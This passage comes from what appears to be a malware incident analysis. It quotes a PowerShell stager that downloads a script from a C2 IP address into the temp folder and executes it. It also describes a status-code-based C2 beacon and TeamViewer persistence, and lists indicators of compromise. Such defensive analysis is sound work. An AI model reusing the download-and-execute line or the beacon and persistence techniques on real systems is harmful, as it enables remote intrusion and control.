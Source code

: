```powershell
// It downloads the next stage payload from the C2 server  
$cli.DownloadFile('http://5.252.153.241/api/file/get-file/29842.ps1', $env:temp+'\'+'tmp.ps1');  
  
// It executes the downloaded script  
& ($env:temp+'\'+'tmp.ps1');  
  
```

This script programmatically connects the initial intrusion to the C2 server, confirming the IP address and User-Agent seen in network logs and demonstrating the attacker's intent to execute further code.
#### 3.2. Command & Control (C2) Heartbeat

The malware established a stealthy C2 channel using a "heartbeat" beacon to check for tasks.
- __The Beacon__: The victim host (__10.1.17.215__) sent a GET request to the C2 server's URI `/1517096937` approximately every 5 seconds.

- __The Signal__: The C2 server used HTTP status codes as a covert signaling channel.

- `HTTP 404 Not Found`: This response acted as the "no command" signal, instructing the malware to continue checking in.

- `HTTP 200 OK`: This response served as the "go" signal, instructing the malware to download and execute a new task.
#### 3.3. Payload and Persistence

Following a `200 OK signal`, the host downloaded a file named TeamViewer, identified by Zeek as a 32-bit Windows executable (`application/x-dosexec`). After the remote access tool was running, the malware reported its success back to the C2 server via a specially crafted GET request, confirming that a startup shortcut was created for persistence.

`...GET /1517096937?k=message=startup+shortcut+created;+status=success;... `

This confirms the malware is configured to run automatically every time the computer reboots.

---
### 4. Indicators of Compromise (IOCs)

| Type       | Indicator                      | Source                |
| ---------- | ------------------------------ | --------------------- |
| IP Address | __5.252.153.241__              | C2 Server             |
| IP Address | __185.188.32.26__              | TeamViewer Server     |
| URI        | `/api/file/get-file/29842.ps1` | PowerShell Stager     |
| URI        | `/1517096937`                  | C2 Beacon             |
| File       | __TeamViewer__                 | PE32 executable       |
| File       | `pas.ps1`                      | PowerShell Downloader |

---
### 5. MITRE ATT&CK Framework Mapping
